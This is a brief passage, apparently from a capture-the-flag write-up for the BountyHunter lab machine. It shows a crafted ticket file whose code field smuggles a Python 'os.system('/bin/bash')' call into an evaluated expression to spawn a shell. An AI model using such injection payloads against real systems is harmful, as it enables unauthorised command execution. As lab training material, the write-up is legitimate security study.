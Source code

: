 ![](Maszyny/Linux/BountyHunter/Pasted%20image%2020210730181314.png)

# Skytrain Inc
# Ticket to New Haven Cainingen Kali Dol
Ticket Code:.
**32+410+88** and _import_('os').system('/bin/bash')
##Issued: 2021/04/06
FROM
#End Ticket
